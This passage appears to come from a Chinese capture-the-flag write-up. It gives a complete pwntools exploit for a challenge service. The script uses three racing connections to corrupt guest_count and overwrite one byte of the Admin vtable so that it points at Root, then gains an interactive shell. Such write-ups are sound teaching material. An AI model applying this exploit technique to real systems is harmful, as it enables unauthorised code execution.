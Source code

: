 然后第三个线程此时写入的就是 `guest_name[11]`，即 Admin 虚表地址了. 只要此时写入 Root 地址的固定的最低一个字节 0x50 即可(其高地址将会 RELRO，因此只写入最后一个字节)

### [](#header-3)EXP

```py
# by leeya_bug
IP      = {你的 IP}
PORT    = {你的端口}

from pwn import * 
import time

c1 = remote(IP, PORT)

# 清空原有数据
time.sleep(0.3)
c1.sendline(b'admin')
c1.sendline(b'clear')
c1.sendline(b'logout')

# 填充四个 guest
for i in range(1, 5):
    time.sleep(0.3)
    c1.sendline(b'guest')
    c1.sendline(b'y')
    c1.sendline(b'name' + str(i).encode())

# 启动另外两个 Connection，并让三个 Connection 进入 wanna leave your name?[y/n] 等待区
if True:
    time.sleep(0.3)
    c1.sendline(b'guest')

    c2 = remote(IP, PORT)
    time.sleep(0.3)
    c2.sendline(b'guest')
    
    c3 = remote(IP, PORT)
    time.sleep(0.3)
    c3.sendline(b'guest')

# 第一个 Connection 填充第五个 guest
time.sleep(0.3)    
c1.sendline(b'y')
c1.sendline(b'name5')

# 第二个 Connection 修改 guest_count 为 0xa，后面变成 0xb
time.sleep(0.3)
c2.sendline(b'y')
c2.sendline(p64(0xa))

# 第三个 Connection 修改 Admin 虚表的最后一个字节为 50，即 Root 虚表的地址
time.sleep(0.3)
c3.sendline(b'y')
c3.send('\x50')

# 触发 admin，反弹 shell
time.sleep(0.3)
c3.sendline(b'admin')
c3.interactive()
```
